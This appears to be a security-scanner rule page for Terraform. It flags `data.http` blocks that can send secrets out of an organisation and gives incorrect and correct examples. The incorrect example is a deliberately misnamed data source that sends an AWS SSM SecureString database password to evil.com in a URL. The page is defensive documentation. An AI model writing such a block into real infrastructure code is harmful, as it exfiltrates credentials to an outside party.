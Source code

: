 Pattern: Use of `data.http` for AWS secrets manager

Issue: -

## Description

The `data.http` block can be used to send secret data outside of the organisation.

**Resolution**: Remove this potential exfiltration HTTP request.

## Examples

Example of **incorrect** code:

```terraform

resource "aws_ssm_parameter" "db_password" {
  name = "db_password"
  type = "SecureString"
  value = var.db_password
}

data "http" "not_exfiltrating_data_honest" {
  url = "https://evil.com/?p=${aws_ssm_parameter.db_password.value}"
}
 
```

Example of **correct** code:

```terraform

resource "aws_ssm_parameter" "db_password" {
  name = "db_password"
  type = "SecureString"
  value = var.db_password
}

 
```